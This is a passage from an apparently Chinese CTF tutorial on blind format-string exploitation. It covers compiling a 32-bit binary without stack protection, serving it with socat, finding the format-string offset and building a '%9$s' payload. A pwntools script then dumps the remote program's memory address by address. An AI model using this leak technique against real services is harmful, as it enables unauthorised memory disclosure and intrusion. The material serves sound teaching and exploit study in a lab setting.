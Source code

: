 gcc编译32位程序

```plain
gcc -z execstack -fno-stack-protector -m32 -o leakmemory leakmemory.c
```

利用socat本地起环境，真实环境就是只有一个交互环境，不给你可执行文件。

```plain
socat TCP4-LISTEN:11112,fork EXEC:./pwn
```

[![](assets/1701612281-4cf0828081928f7ff3b69d1df8eebdd9.png)](https://xzfile.aliyuncs.com/media/upload/picture/20230718224042-12a5e8f8-2579-1.png)

这里经过测试，发现是**32位**程序，而且漏洞点在输入`Do you want the flag?`，格式化字符串**偏移为7**

(TIPS:32位可以先进行4字节的填充，64字节可以先进行8字节的填充，便于观察偏移量)

[![](assets/1701612281-dc7fe6d8f68271ceaac930173dae62ab.png)](https://xzfile.aliyuncs.com/media/upload/picture/20230718224046-14a88462-2579-1.png)

```plain
aaaa->0x61616161
```

接下来就是要dump程序了

dump 程序，也就是想获取我们所给定地址的内容，而不是获取我们给定的地址。所以应该用 **%n$s** 把我们给定地址当作指针，输出给定地址所指向的字符串。结合前面知道格式化字符串偏移为 7 ，payload 应该为：`%9$s.TMP[addr]`

(这里其实和fmtstr3一样的逻辑，小端序程序，在低地址又多写入了2个参数，一个是分隔符.tmp字符串，一个是返回地址，相当于又抬高了栈，所以偏移为9)

**注意**：使用 %s 进行输出并不是一个字节一个字节输出，而是一直输出直到遇到 \\x00 截止符才会停止，也就是每次泄露的长度是不确定的，可能很长也可能是空。因为 .text 段很可能有连续 \\x00 ，所以泄露脚本处理情况有：

1.  针对每次泄露长度不等，addr 根据每次泄露长度动态增加；
2.  泄露字符串可能为空，也就是如何处理 \\x00 ；

接下来就是要泄露程序的初始地址

###### 方法一：**从程序加载地址开始**

32 位：从 0x8048000 开始泄露

64 位：从 0x400000 开始泄露

leak.py

```plain
#! /usr/bin/env python 
# -*- coding: utf-8 -*- 
from pwn import *
import binascii

r = remote('127.0.0.1',11112)

def leak(addr):
    payload = "%9$s.TMP" + p32(addr)
    r.sendline(payload)
    print "leaking:", hex(addr)
    r.recvuntil('right:')
    ret = r.recvuntil(".TMP",drop=True)
    print "ret:", binascii.hexlify(ret), len(ret)
    #使用binascii 将泄漏出来字符串每一个都从 ascii 转换为 十六进制，方便显示
    remain = r.recvrepeat(0.2)
    #r.recvrepeat(0.2) 接受返回的垃圾数据，方便下一轮的输入
    return ret
```